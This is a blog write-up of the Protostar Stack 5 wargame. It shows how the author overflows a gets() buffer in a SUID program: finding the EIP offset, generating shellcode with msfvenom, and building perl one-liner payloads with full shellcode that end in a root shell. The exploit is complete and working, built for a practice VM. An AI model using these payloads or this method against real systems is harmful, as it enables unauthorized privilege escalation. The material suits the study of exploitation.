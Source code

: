 ```yaml
---
title: "Exploit Exercises - Protostar Stack 5"
date: "2011-12-17T12:23:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - suid
 - hacking
aliases:
 - "/2011/12/17/exploit-exercises-protostar-stack-5.html"
---
```


Wow, this challenge was a tough one for me.  I ran into some huge problems that I had to work out.  Considering this is a "standard buffer overflow", I figured it'd be as easy as some of the others I've done in the past.  I'll explain my frustrations inline. 

<!-- more -->

First, we're given the following vulnerable program.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```

The first task with this challenge was to find the offset of the EIP.  Like previous challenges, I used [Metasploit's](http://www.metasploit.com) pattern_create.rb and pattern_offset scripts on another machine.

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

user@protostar:/opt/protostar/bin$ gdb --quiet ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run
Starting program: /opt/protostar/bin/stack5
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x63413563
76
```

 Now we know that we have 76 characters we could put our shellcode in before the EIP.  I was curious to see if we would have any after as well.  I wanted to explore a little, so I ran this.

```
user@protostar:~$ perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE" . "C"x100' | ./stack5
Segmentation fault (core dumped)

user@protostar:~$ gdb --core=/tmp/core.11.stack5.4174 --quiet
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/10s $esp
0xbffff7e0:      'C' <repeats 100 times>
0xbffff845:      "b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff852:      ""
0xbffff853:      ""
0xbffff854:      "\020\203\004\b"
0xbffff859:      ""
0xbffff85a:      ""
0xbffff85b:      ""
0xbffff85c:      "1\203\004\ba\004\b\001"
0xbffff866:      ""
```

Interestingly enough, it looks like we at least have 100 characters after our return address that we could use to store longer shellcodes.  This could come in handy if using shellcodes generated from msfpayload. 

So now we know that we can jump to 0xbffff7e0 to get into our C area.  Let's pad it with a couple NOPs just in case, and jump to 0xbffff7d6 instead. 

Up until now, this was a simple buffer overflow problem.  One may even call it a textbook problem.  Now here's the part that had me frustrated. 

I decided I would try using msfpayload to generate some shellcode like I've done many times in the past.  Since I just want to run /bin/sh, I figured it'd be an easy way.  I also went through the exercise of finding all the badchars (I'll cover this later, since it doesn't matter here).

```
msfvenom -p linux/x86/exec -f pl -b '\x0d\x0a\x00\xff' CMD=/bin/sh PrependSetresuid=true
[*] x86/shikata_ga_nai succeeded with size 80 (iteration=1)
my $buf =
"\xdb\xc8\xd9\x74\x24\xf4\xba\x2a\xa1\xa4\x48\x5d\x29\xc9" .
"\xb1\x10\x31\x55\x17\x83\xed\xfc\x03\x7f\xb2\x46\xbd\x4e" .
"\x7d\xb7\xe5\x47\x9e\x08\xbd\x6a\xe1\x03\xb5\x2c\x7b\x81" .
"\xaf\xa4\x56\x45\xb9\xd3\xc1\xa6\xca\x73\x12\xd1\x03\xe1" .
"\x7b\x4f\xd5\x06\x29\x67\xed\xc8\xce\x77\xc1\xaa\xa7\x19" .
"\x32\x59\x50\xe6\x1b\xce\x29\x07\x6e\x70\x18\x13\x1b\x71" .
"\x03\x6e\x5c";
```

This generated shellcode looked awesome.  I configured it to not have any of my badchars, to run "/bin/sh", and to prepend that execution with a setresuid() so that the SUID bit would affect my result, giving me a root shell, instead of just a shell I already had.  So I set it all up:

```
user@protostar:~$ perl -e 'print "A"x76 . "\xd6\xf7\xff\xbf" . "\x90"x16 . "\xdb\xc8\xd9\x74\x24\xf4\xba\x2a\xa1\xa4\x48\x5d\x29\xc9\xb1\x10\x31\x55\x17\x83\xed\xfc\x03\x7f\xb2\x46\xbd\x4e\x7d\xb7\xe5\x47\x9e\x08\xbd\x6a\xe1\x03\xb5\x2c\x7b\x81\xaf\xa4\x56\x45\xb9\xd3\xc1\xa6\xca\x73\x12\xd1\x03\xe1\x7b\x4f\xd5\x06\x29\x67\xed\xc8\xce\x77\xc1\xaa\xa7\x19\x32\x59\x50\xe6\x1b\xce\x29\x07\x6e\x70\x18\x13\x1b\x71\x03\x6e\x5c"' > /home/user/file
user@protostar:~$ /opt/protostar/bin/stack5 < /home/user/file                  
user@protostar:~$
```

So um, I should have got a shell there right?  There was no segmentation fault, it ran cleanly.  I tinkered by putting "\xcc" before the shellcode, and it would give me a message letting me know that it hit it.  I knew for sure my shellcode was being executed, but no results.  To verify, I used gdb:

``` 
user@protostar:~$ sudo gdb --quiet /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run < /home/user/file
Starting program: /opt/protostar/bin/stack5 < /home/user/file
Executing new program: /bin/dash

Program exited normally.
```

What this showed me was 2 interesting things.  Firstly, I was not aware that many distributions now map /bin/sh to /bin/dash (more info [here](https://wiki.ubuntu.com/DashAsBinSh)).  Secondly, and more importantly, I knew for sure that my shellcode was executing, and creating the process.  I just didn't know why it exited after. 

So this is the point that I spent 5 days on and off messing with.  I found if I changed the msfvenom command from CMD="/bin/sh" to CMD="touch /tmp/iamawesome", the file would be created with root permissions.  Any command that didn't need to return to me for interactive control worked fine.  I tried a myriad of other shellcodes, and nothing just gave me a simple shell.  I could bind a shell to a TCP port, or run a meterpreter with no problem, but for this challenge, I just wanted a simple rootshell from "execve()". 

So one night, I was reading on this, and just happened to get my search query perfect, because I stumbled upon an interesting stackoverflow page, [here](http://stackoverflow.com/questions/2859127/shellcode-for-a-simple-stack-overflow-exploited-program-with-shell-terminates-d).  This guy was having the same problem as me!  And interestingly enough, he mentions problems with programs that use the "gets()" function.  This makes sense, as your standard input/output could be configured in a mode just for the function call.  Unfortunately, the shellcode that was mentioned was hosted at milw0rm, which has been down for a good long time.  Many sites, such as [Exploit-Db](http://www.exploit-db.com) have popped up to fill the void that milw0rm left.  However, they use a completely different url structure, so I had no idea what the shellcode was.  Well, I used the [Internet Way-Back Machine](http://www.archive.org), and found an old cache of milw0rm.  From there, I found the shellcode.  I also found that Exploit-Db has it [here](http://www.exploit-db.com/exploits/13357) as well.  I read through the description of the shellcode, and it makes tons of sense.  So I wire it up to try again, this time with the new shellcode.

```
user@protostar:~$ perl -e 'print "A"x76 . "\xd6\xf7\xff\xbf" . "\x90"x16 . "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' > /home/user/file
user@protostar:~$ /opt/protostar/bin/stack5 < /home/user/file                   
# whoami
root
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

Awesome.  I have a root shell.  I guess it's also worth pointing out that since we are specifically jumping to a memory address in our exploit, that memory addresses can change based on how you call it.  The address will be different if I call ./stack5 from inside the /opt/protostar/bin folder, than if I use the full path.  Since I was using gdb, and it calls files using the full path, I did it as well for the exploit.  For now, we have not yet covered how to dynamically get that value.  That will be for a later post.
